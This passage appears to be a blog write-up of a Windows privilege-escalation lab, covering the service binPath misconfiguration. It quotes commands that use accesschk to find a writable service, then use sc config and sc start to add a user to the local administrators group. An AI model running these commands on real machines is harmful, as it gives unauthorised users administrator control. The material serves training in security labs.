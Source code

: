 And we confirm the successfully exploit by checking if the user belongs to the localgroup administrators:

![Administrator](/assets/img/posts/windows-privesc/task8/task8_administrator.png)


### <span style="color: var(--link-color);">[Task 9] - Service Escalation - binPath </span>

**binPath** is used to specific binary paths to Windows services. If we have permission to modify the configuration, we can exploit this vulnerability.
To check the permission, we can use **accesschk**.

> Detection
> 
> Windows VM
> 
> 1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
> 
> 2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.
> 
> Exploitation
> 
> Windows VM
> 
> 1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
> 2. In command prompt type: sc start daclsvc
> 3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators


##### Detection
We run accesschk to check the permission of **daclsvc** service:

![Detection](/assets/img/posts/windows-privesc/task9/detection.png)
